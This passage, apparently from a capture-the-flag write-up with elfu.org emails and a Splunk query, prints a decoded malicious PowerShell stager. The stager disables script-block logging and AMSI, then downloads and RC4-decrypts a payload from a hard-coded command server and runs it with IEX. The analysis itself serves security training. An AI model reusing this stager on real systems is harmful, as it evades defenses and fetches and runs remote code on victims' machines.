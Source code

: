             [SCrIPTBlOCK]."GEtFIe`lD"('signatures','N'+'onPublic,Static').SETVALUe($NUll,(NEW-OBjEct CollEcTions.GEnerIC.HashSeT[sTrING]))
        }
        [REf].ASSEMBlY.GETTYPe('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GETFielD('amsiInitFailed','NonPublic,Static').SEtValUe($NUlL,$True)};
    };
    [SySteM.NeT.SERvicEPoInTMaNaGer]::EXPecT100CONtInUe=0;
    $wc=NEw-ObjECT SysTEM.NeT.WeBCLiENT;
    $u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
    $wC.HEADErS.ADd('User-Agent',$u);
    $Wc.ProXy=[SySTeM.Net.WeBREQuEST]::DEFaULTWebProXy;
    $WC.PRoXy.CREDenTIAls = [SySTEm.NET.CRedeNTiAlCAcHe]::DeFaulTNeTwORkCREDenTiALS;
    $Script:Proxy = $wc.Proxy;
    $K=[SySTEM.Text.EncOdING]::ASCII.GeTBYteS('zd!Pmw3J/qnuWoHX~=g.{>p,GE]:|#MR');
    $R={
        $D,$K=$ARGs;
        $S=0..255;
        0..255 | %{
            $J=($J+$S[$_]+$K[$_%$K.COUnt])%256;
            $S[$_],$S[$J]=$S[$J],$S[$_]
        };
        
        $D | %{
            $I=($I+1)%256;
            $H=($H+$S[$I])%256;
            $S[$I],$S[$H]=$S[$H],$S[$I];
            $_-BXoR$S[($S[$I]+$S[$H])%256]
        }
    };
    $ser='http://144.202.46.214:8080';
    $t='/admin/get.php';
    $WC.HEADErs.Add("Cookie","session=reT9XQAl0EMJnxukEZy/7MS70X4=");
    $DATa=$WC.DownlOADDAtA($sEr+$T);
    $Iv=$DatA[0..3];
    $DatA=$dATa[4..$DatA.lENGtH];
    -JOIN[ChaR[]](& $R $DatA ($IV+$K))|IEX
    ```

    index=main "from\": \"Carl Banas" body*

    --->


    from: Carl Banas <Carl.Banas@faculty.elfu.org>
    to: Bradly Buttercups <Bradly.Buttercups@eIfu.org>
    subject: RE: Holiday Cheer Assignment Submission
    Bradly,
    
    I opened your assignment (which was not easy, by the way) and it seems you have not only not included an image per the instructions, but your assignment is identical to another student's assignment.  This means your grade will be 0/100.

    -----Original Message-----
    From: Bradly Buttercups <Bradly.Buttercups@eIfu.org> 
    Sent: Sunday, August 25, 2019 9:18 AM
    To: Carl Banas <Carl.Banas@faculty.elfu.org>
    Subject: Holiday Cheer Assignment Submission
